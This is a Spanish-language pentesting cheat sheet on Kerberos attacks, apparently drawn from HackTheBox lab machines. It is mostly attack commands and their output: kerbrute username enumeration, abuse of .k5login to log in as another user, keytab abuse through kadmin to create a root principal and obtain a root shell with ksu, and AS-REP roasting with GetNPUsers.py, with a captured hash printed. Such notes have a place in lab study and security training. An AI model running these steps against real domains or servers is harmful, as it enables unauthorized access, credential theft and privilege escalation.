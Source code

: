# Kerberos - 88

## Enumeración de usuarios
```null
kerbrute userenum --dc 10.10.11.175 -d outdated.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
```

## Configuración del ``krb5.conf`` para el acceso por SSH
```null
dpkg-reconfigure krb5-config
```

```null
[libdefaults]
  default_realm = REALCORP.HTB

[realms]
  REALCORP.HTB = {
    kdc = realcorp.htb:88
    }
```

El SPN debe ser el primer host al que apuntar en el ``/etc/hosts``

### Conexión
```null
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```

```null
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Jan 19 12:36:51 2023 from 10.10.14.6
[j.nakazawa@srv01 ~]$ 
```

## Abuso de ``.krlogin`` para escalar privilegios (LINUX)

### Creación de archivo de configuración en el directorio personal de un usuario
Con esto se consigue que el usuario pwneado se pueda conectar como este otro proporcionando su TGT
```null
[j.nakazawa@srv01 squid]$ echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

### Abuso de ``.keytab``

### Enumeración de TGTs proporcionado este archivo
```null
[admin@srv01 /]$ klist -k /etc/krb5.keytab
```

### Sesión interactiva proporcionando SPN
```null
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

### Creación de principal para el usuario ``root``, así como su contraseña
```null
kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
```

### Shell como ``root``

```null
[admin@srv01 /]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
```

### ASPRepRoast Attack

### Obtener TGT (Don't require preauth disable)

```null
root@kali# GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0
```

